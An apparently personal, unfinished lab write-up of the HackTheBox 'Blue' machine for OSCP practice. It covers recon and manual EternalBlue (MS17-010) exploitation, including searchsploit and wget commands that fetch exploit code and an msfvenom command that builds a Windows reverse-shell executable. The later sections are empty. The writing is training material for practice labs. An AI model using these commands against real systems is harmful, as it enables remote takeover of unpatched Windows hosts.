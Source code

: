 # Blue
Name: Blue
Date:  22/09/2022 - With Metasploit &
Difficulty:  Easy
Goals:  OSCP Prep, rewrite a python exploit
Learnt:

## Recon
The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
```bash
ping -c 3 10.129.105.18  
PING 10.129.105.18 (10.129.105.18) 56(84) bytes of data.
64 bytes from 10.129.105.18: icmp_seq=1 ttl=127 time=232 ms
64 bytes from 10.129.105.18: icmp_seq=2 ttl=127 time=233 ms
64 bytes from 10.129.105.18: icmp_seq=3 ttl=127 time=221 ms

--- 10.129.105.18 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 221.410/228.976/233.237/5.364 ms
```
Even though the name of this room is very siumilar to a famous exploit,
seeing the `Windows 7 Professional 7601 Service Pack 1 microsoft-ds` in nmap of anything to means to check for Eternal Blue. But I also run other nmap scan for completeness and Vuln returns the dreaded smb-vuln-ms17-010.

## Exploit

Although metasploit has a module for this and it a quick couple of commands to execute I will perform this manually. I looked up manual exploitation of Eternal Blue and found this  article: [redteamzone](https://redteamzone.com/EternalBlue/). Following the steps layed out while being mindful this is a windows 7 exploit using old versions and implementations of python. 

```bash
searchsploit eternal
searchsploit -m 42315.py # -m copies to current working directory
```
![searchsploit](Screenshots/searchsploit.png)

The dependency missing from my VM like the guide is mysmb.
```bash
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```
Potentially change username and password to `'vagrant'`, ran regardless to detirmine are incompatiblities 
![concat](canonlyconcatstr.png)

I later returned to this box once more time and recognised it was considerable out of date so I tried the [huey](https://dev.to/0xhuey/manually-exploiting-ms17-010-python2-to-python3-3l2k)


```bash
# reverse_tcp for the OSCP guidelines
msfvenom -p windows/shell_reverse_tcp LHOST=10.129.105.18 LPORT=4444 -f exe -o shell.exe
```

## Foothold

## PrivEsc

## Metapsploit
Just for sake of completion
![](metasploit.png)


